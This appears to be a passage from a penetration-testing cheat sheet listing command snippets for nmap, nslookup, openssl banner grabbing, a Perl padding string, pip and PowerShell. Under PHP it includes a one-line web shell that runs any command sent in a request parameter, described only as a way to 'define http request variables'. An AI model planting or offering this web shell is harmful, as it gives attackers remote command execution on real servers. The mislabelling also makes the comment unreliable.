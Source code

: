 # check supported HTTP methods
nmap -p 443 --script http-methods --script-args http-methods.url-path='/my/path/here' url_here


NSLOOKUP
--------
# find hostname of IP_here
nslookup
server DNS_IP_here
127.0.0.1
IP_here


OPENSSL
-------
# banner grabbing (2 empty lines required between headers + body!)
openssl s_client -connect target_ip:443
HEAD / HTTP/1.1




PERL
----
# generate string of 20 A + concatenate with ABCD
$(perl -e 'print "\x41" x 20 . "ABCD"')


PHP
---
# interactive mode
php -a

# define http request variables : parameter can be used in subsequent GET + POST requests
<?php system($_REQUEST['parameter_name_here']); ?>


PIP
---
# install pip package
python3 -m pip install package


POWERSHELL
----------
# import module
Import-Module module_name_here
